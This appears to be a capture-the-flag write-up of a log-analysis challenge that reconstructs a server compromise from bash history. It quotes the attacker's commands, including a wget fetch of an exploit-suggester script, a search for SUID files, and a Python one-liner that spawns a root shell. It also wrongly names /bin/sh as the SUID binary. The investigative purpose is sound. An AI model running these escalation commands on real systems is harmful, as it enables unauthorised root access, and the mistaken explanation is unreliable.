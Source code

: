 ```yaml
---
layout: post
title: Log Analysis - Privilege Escalation
date: '2023-10-06 11:11:46 +0300'
image: /assets/img/cover_images/14.png
categories: [BTLO, CTF-Like]
tags: [Texteditor, Bash History]
---
```


## Log Analysis - Privilege Escalation
A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened? 

## What user (other than ‘root’) is present on the server?

Let's open the files of bash_history

```bash
cd /home
ls
cd /home/daniel/
ls -la
su root
```

## What script did the attacker try to download to the server? 

We can see the script from bash_history
```bash
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
```

## What packet analyzer tool did the attacker try to use?

We can see the packet analyzer from bash_history
```bash
iptables -L
lsof -i
tcpdump
last
cat /etc/sudoers
```

## What file extension did the attacker use to bypass the file upload filter implemented by the developer?

We can see the file extension from bash_history
```bash
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
rm /var/www/html/uploads/x.phtml
```

## Based on the commands run by the attacker before removing the php shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load

Based on the bash history we can see the attacker was searching for [SUID](https://gtfobins.github.io/) binaries and he was able to locate /bin/sh which he exploited with python
```bash
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```